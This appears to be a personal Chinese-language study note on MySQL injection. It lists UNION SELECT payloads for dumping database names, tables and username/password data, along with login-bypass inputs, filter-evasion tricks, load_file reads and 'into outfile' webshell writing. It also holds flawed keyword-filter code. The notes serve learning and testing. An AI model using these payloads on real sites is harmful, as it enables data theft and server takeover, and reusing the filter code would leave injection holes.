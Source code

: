 #### mysql介绍及操作

增删语句

information_schema是一个很重要的库，information_schema.tables

- mysql的一些函数

  ```sql
  system_user() # 系统用户名
  user()	# 用户名	----
  current_user
  session_user()	# 连接数据库的用户名
  database()	# 数据库名	-----
  version()	# 数据库版本	-----
  load_file()	# 读取本地文件
  @@datadir	# 读取数据库路径
  @@basedir	# Mysql安装路径
  @@version_compile_os # OS
  ```

- mysql数据库连接

  ```php
  <?php
      $host='localhost';	//数据库地址
  	$database='sui';	//数据库名称
  	$user='root';		//帐户
  	$passed='';			//密码
  	$webml='/0/';		//安装文件夹
  ?>
  ```

  如果是root权限的话，可以进一步提权；config、inc、data、common.inc

  ==了解各种cms==

#### mysql注入原理

1. 注入形成原理

   get接收一个值，看他有没有过滤；

2. 简单防注入实现

   ```php
   function check_sql($x)
   {
       $inject = array('and','union','select','from','or');
       $i = str_replace($injection, "", $x);
       return i;
   }
   
   $id = $_GET['id'];
   select * from admin where id=$id;
   
   function inject_check($str)
   {
       $temp = eregi('and|select|insert|update|delete|\'|\/\*|\*|\.\.\/|\.\/|union|into',$str);
       if($temp){
           echo "输入非法内容";
           exit();
       }else{
           return $str;
       }
   }
   ```

3. 绕过防注入

   比如改变大小写，嵌套关键字aandnd

#### mysql注入其他操作

1. 判断注入

2. 判断列数 

   oder by 10，返回正常就表示有10列

3. 联合查询

   `id=13 union select 1,2,3,4,5,6,7,8,9,10`

   按理说，如果前面查询出来的不是数字，那他和后面的10个数字中的某一个类型就会不匹配，就应该报错；

   但是我的navicat并没有报错；重点就是利用这个报错显示信息；  sqlserver没有这些；  *第二列是字符类型*

   - 查询版本  

     `id=13 union select 1,version(),3,4,5,6,7,8,9,10`

   - 查询用户

     `id=13 union select 1,user(),3,4,5,6,7,8,9,10`

   - 查询数据库

     `id=13 union select 1,database(),3,4,5,6,7,8,9,10`

   - 查询表

     `id=13 union select 1,group_concat(table_name),3,4,5,6,7,8,9,10 from information_schema.tables where table_shema=xy # xy应转换为16进制`

     直接'xy'不也行嘛？

   - 查询列

     `id=13 union select 1,group_concat(column_name),3,4,5,6,7,8,9,10 from information_schema.columns where table_name='user'`

   - 查询数据

     `id=13 union select 1,group_concat(name,0x7e,pwd),3,4,5,6,7,8,9,10 from user` 

     0x7e是一个特殊字符 ~

- mysql4.0渗透

  它没有information_schema表，所以不能爆出所有的表名列名；只能用字典爆破；

  利用sqlmap读文件；

- mysql显错注入

  *先百度，视频里就是直接复制粘贴就用了*

- 后台绕过

  有时，#把后面的sql语句注释掉

  ```sql
  select * from user where username='' and password=''
  # 输入admin'#
  # 输入admin' or '1=1
  # 多试试几个闭合
  ```

- mysql读写函数的使用

  load_file()函数，参数是绝对路径；用法和之前的暴库差不多；

  那绝对路径怎么找？ `c:/windows/system32/instsrv/metabase.xml`

  > 报错显示；google hack搜索warning信息； 遗留文件phpinfo info test php； 漏洞爆路径；读取配置文件；
  >
  > 上传报错比较容易：上传一个错误的东西，可能会把绝对路径爆出来；

- 利用注入漏洞执行系统命令

  必须要root权限； `into outfile 'c.php'`

  可以导入一句话；可以创建用户；

- 魔术引号与宽字节注入

  宽字节注入：是PHP的配置问题，`magic_quotes_runtime`；'会变成\'

  sqlmap——unmagicquotes；`--tamper unmagicquotes.py`



> 正则表达式还是需要熟悉，尤其是转义这一块
>
> url编码需要了解；
>
> 转16进制可以绕过 ' 被过滤的情况

